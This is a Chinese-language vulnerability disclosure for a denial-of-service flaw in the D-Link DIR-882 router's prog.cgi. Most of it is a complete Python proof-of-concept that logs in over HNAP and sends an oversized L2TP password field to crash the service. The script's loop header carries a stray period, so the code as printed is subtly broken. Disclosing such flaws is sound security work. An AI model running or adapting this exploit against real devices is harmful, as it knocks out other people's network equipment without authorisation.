


# Dlink DIR-882 DOS漏洞
## Overview
- 厂商官网：https://support.dlink.com/index.aspx 
- 固件下载地址：https://support.dlink.com/ProductInfo.aspx?m=DIR-882-US

## Vulnerability information
Dlink DIR-882_A1_FW1.30B06fix03中存在DOS漏洞，可导致prog.cgi崩溃。

## Affected version

图示为路由器的最新固件:A1_FW1.30B06fix03
## Vulnerability details
在网上可以找到的固件版本是1.30。


在prog.cgi中，我们可以在sub_46C6CC设置L2TP功能的代码中找到细节，程序将/SetWan3Settings/Password参数获取的内容传递给V47.


V47参数由decrypt_aes()函数调用。在decrypt_aes()函数中，它被传递给sub_427184()。


在函数sub_427184()中，传入参数的长度被调用作为两个for循环中的循环次数。



所以循环次数是可控的，如果循环次数足够长，就会导致dos。
## Vulnerability exploitation condition
登录后需要获取cookie才能执行攻击。

## Recurring vulnerabilities and POC
为了重现该漏洞，可以遵循以下步骤:
1. 连接物理设备
2. 使用以下POC攻击进行攻击

Poc is as follows
```python
import math
import re
import time
from hashlib import md5

import requests
IP = '192.168.0.1'
USERNAME = 'Admin'
PASSWORD = 'dir882$$'
REPEAT_TIMES = 1

trans_5C = bytes((x ^ 0x5c) for x in range(256))
trans_36 = bytes((x ^ 0x36) for x in range(256))
blocksize = md5().block_size

def hmac_md5(key, msg):
    key, msg = key.encode(), msg.encode()
    if len(key) > blocksize:
        key = md5(key).digest()
    key += b'\x00' * (blocksize - len(key))  # padding
    o_key_pad = key.translate(trans_5C)
    i_key_pad = key.translate(trans_36)
    return md5(o_key_pad + md5(i_key_pad + msg).digest())


def hnap_auth(soap_action, private_key):
    b = math.floor(int(time.time())) % 2000000000
    b = str(b)[:-2]
    h = hmac_md5(private_key, b + '"http://purenetworks.com/HNAP1/' +
                 soap_action + '"').hexdigest().upper()
    return h + " " + b


for i in range(REPEAT_TIMES):.
    headers = {
        'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/106.0.5249.119 Safari/537.36',
        'Content-Type': 'text/xml; charset=UTF-8',
        'X-Requested-With': 'XMLHttpRequest',
        'SOAPAction': '"http://purenetworks.com/HNAP1/Login"'
    }

    payload = f'<?xml version="1.0" encoding="utf-8"?><soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/"><soap:Body><Login xmlns="http://purenetworks.com/HNAP1/"><Action>request</Action><Username>{USERNAME}</Username><LoginPassword></LoginPassword><Captcha></Captcha></Login></soap:Body></soap:Envelope>'

    r = requests.post(f'http://{IP}', data=payload, headers=headers)

    challenge = re.search(r'<Challenge>(.*?)</Challenge>', r.text).group(1)
    cookie = re.search(r'<Cookie>(.*?)</Cookie>', r.text).group(1)
    publick_key = re.search(r'<PublicKey>(.*?)</PublicKey>', r.text).group(1)

    private_key = hmac_md5(publick_key + PASSWORD,
                           challenge).hexdigest().upper()
    password = hmac_md5(private_key, challenge).hexdigest().upper()

    headers['HNAP_AUTH'] = hnap_auth("Login", private_key)
    headers['Cookie'] = f'uid={cookie}'
    payload = f'<?xml version="1.0" encoding="utf-8"?><soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/"><soap:Body><Login xmlns="http://purenetworks.com/HNAP1/"><Action>login</Action><Username>{USERNAME}</Username><LoginPassword>{password}</LoginPassword><Captcha></Captcha></Login></soap:Body></soap:Envelope>'

    r = requests.post(f'http://{IP}/HNAP1/', data=payload, headers=headers)
    if '<LoginResult>success</LoginResult>' in r.text:
        print('[*] Login successfully!')
    else:
        print('[!] Login failed!')
    data_password = 'A' * 230
    payload = f'''<?xml version="1.0" encoding="utf-8"?><soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">
	<soap:Body>
		<SetWan3Settings xmlns="http://purenetworks.com/HNAP1/">
			<Type>DynamicL2TP</Type>
			<Username>test</Username>
			<Password>{data_password}</Password>
			<MaxIdleTime>0</MaxIdleTime>
			<HostName/>
			<VPNIPAddress/>
			<VPNSubnetMask/>
			<VPNGateway/>
			<ServiceName></ServiceName>
			<AutoReconnect>true</AutoReconnect>
			<IPAddress></IPAddress>
			<SubnetMask/>
			<Gateway/>
			<ConfigDNS>
				<Primary></Primary>
				<Secondary></Secondary>
			</ConfigDNS>
			<MacAddress></MacAddress>
			<MTU>1492</MTU>
			<DsLite_Configuration/>
			<DsLite_AFTR_IPv6Address/>
			<DsLite_B4IPv4Address/>
		</SetWan3Settings>
	</soap:Body>
</soap:Envelope>'''
    headers['SOAPAction'] = '"http://purenetworks.com/HNAP1/SetWan3Settings"'
    headers['HNAP_AUTH'] = hnap_auth("SetWan3Settings", private_key)
    r = requests.post(f'http://{IP}/HNAP1/', data=payload, headers=headers)
    print(r.text)
```
运行poc后，prog.cgi的进程号发生了变化，说明prog.cgi已经重启，正常的数据包不会引起进程变化。
运行前:


运行后：


## CVE-ID
unsigned
